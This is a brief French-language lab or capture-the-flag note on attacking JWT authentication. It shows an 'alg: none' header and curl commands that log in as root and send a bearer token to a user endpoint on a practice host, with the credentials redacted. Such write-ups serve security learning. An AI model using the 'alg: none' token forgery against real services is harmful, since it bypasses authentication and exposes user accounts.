 # JWT

## attaque facile et connu: mettre “none” dans le champs “alg”: 

HEADER:
{
  "typ": "JWT",
  "alg": "none"
}


## s'authentifier et recuperer un token:

curl -X POST -H 'Content-Type: application/json' -d '{"username":"root","password":"<redacted>"}' http://10.10.10.137:3000/login

## soumettre le token:

```sh
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.<redacted>' http://10.10.10.137:3000/users/Derry
```

